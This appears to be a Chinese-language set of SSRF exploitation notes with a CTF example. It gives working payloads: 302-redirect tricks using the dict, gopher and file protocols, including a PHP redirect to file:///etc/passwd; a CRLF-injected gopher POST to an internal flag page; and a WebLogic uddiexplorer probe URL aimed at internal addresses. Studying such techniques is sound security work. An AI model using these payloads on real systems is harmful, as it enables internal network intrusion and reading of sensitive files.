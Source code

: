 协议利用：

1)Dict协议

`/302.php?s=dict&ip=vul.comg&port=8080&data=helo:dict`

2)Gopher协议

`/302.php?s=gopher&ip=vul.comg&port=8080&data=gopher`

3)file协议

```
<?php
header("Location: file:///etc/passwd");
?>
```

例子：只能本地localhost情况下访问

结合一道CTF实例

302.php的内容为

```
header("Location:gopher://127.0.0.1:80/_POST /flag.php HTTP/1.1%0d%0aHost:

vultarget.com%0d%0aUser-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:50.0)

Gecko/20100101 Firefox/50.0%0d%0aAccept:

text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8%0d%0aAccept-Language:

zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3%0d%0aAccept-Encoding: gzip,

deflate%0d%0aConnection: keep-alive%0d%0aUpgrade-Insecure-Requests: 1%0d%0aContent-

Type: application/x-www-form-urlencoded%0d%0aContent-Length:

14%0d%0a%0d%0ausername=admin");
```

CRLF Header Injection HTTP头注入

weblogic uddiexplorer SSRF

```
http://xxx.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://(要探测的内网地址)&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```

CRLF->ASCII Code

`-%0d->0x0d->\r 回车`

`-%0a->0x0a->\n 换行`

案例一

![1568604099257]({{site.baseurl}}/assets/images/SSRF/1.png)

